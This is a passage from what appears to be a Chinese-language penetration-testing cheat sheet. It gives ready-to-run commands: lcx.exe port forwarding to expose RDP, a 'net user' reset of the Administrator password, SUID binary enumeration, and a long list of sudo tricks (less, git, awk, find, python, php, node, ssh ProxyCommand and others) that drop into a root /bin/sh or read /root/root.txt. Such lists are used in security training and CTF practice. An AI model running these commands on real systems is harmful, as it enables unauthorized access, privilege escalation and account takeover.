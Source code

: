 ```cmd
lcx.exe -listen 22333 63389

lcx.exe -slave 10.26.14.222 22333 127.0.0.1 3389
```

- 修改管理员密码

```cmd
net user Administrator qW1@
```

- 连接RDP即可


### Linux

- SUID程序

```shell
find / -perm -u=s -type f 2>/dev/null
```

- sudo特权程序 参考GTFOBins 如

```shell
sudo less <SOME_FILE>
!/bin/sh

sudo apt changelog apt
!/bin/sh

sudo arp -v -f /root/root.txt
sudo comm /root/root.txt /dev/null 2>/dev/null
sudo curl file:///root/root.txt

sudo git help config
!/bin/sh

sudo TERM= more /etc/profile
!/bin/sh

sudo awk 'BEGIN {system("/bin/sh")}'

sudo find . -exec /bin/sh \; -quit

sudo mysql -e '\! /bin/sh'

sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

sudo php -r "system('/bin/sh');"

sudo python -c 'import os; os.system("/bin/sh")'

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

sudo service ../../bin/sh
```
